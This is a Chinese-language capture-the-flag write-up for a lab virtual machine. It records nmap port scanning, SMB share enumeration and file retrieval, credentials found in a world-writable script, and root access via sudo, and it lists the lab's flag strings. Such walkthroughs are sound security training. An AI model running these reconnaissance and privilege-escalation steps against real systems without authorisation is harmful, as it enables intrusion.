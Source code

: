 
> 关键在于nmap扫描时扫描完全，smb服务的利用，提权时查看有多少用户，find命令的利用
## 靶机信息
- 级别:中级

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.151

sudo nmap -sT --min-rate 10000 -p- 192.168.1.151 -oA tcp_scan/ports
//Ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

```shell
sudo nmap -sT -sC -sV -O -p 22,80,139,445 -oA tcp_scan/details 192.168.1.151
//扫描结果显示存在smb服务
```
![[Pasted image 20231012183213.png]]

### enum4linux
```shell
enum4linux 192.168.1.151 //enum4linux是一个smb服务枚举工具
```
![[Pasted image 20231012183742.png]]
![[Pasted image 20231012183834.png]]
```shell
smbclient -t \\remote-server //列出smb服务共享的资源
smbclient //192.168.1.151/wave
```
![[Pasted image 20231012184547.png]]
```shell
get FLAG1.txt
得到flag1 ： Flag1{Welcome_T0_THE-W3ST-W1LD-B0rder}
得到一组凭证:user:wavex
            password:door+open

```

## 提权

```shell
//ssh登录到wavex用户后，看到还有一个aveng用户
//wavex用户不能使用sudo su 等命令 suid提权行不通

//查找可写可执行文件
find / -type f -perm -0777 2>/dev/null
/usr/share/av/westsidesecret/ififoregt.sh //只找到一个文件
//得到另一个凭据
#!/bin/bash 
figlet "if i foregt so this my way"
echo "user:aveng"
echo "password:kaizen+80"
```

![[Pasted image 20231012185454.png]]
```shell
登录aveng用户，sudo -l 看到三个ALL，直接提权就行
sudo su //sudo -l 查看可以用sudo执行什么命令

成功提权
falg2 ： Flag2{Weeeeeeeeeeeellco0o0om_T0_WestWild}
```
![[Pasted image 20231012190104.png]]

![[Pasted image 20231012190255.png]]



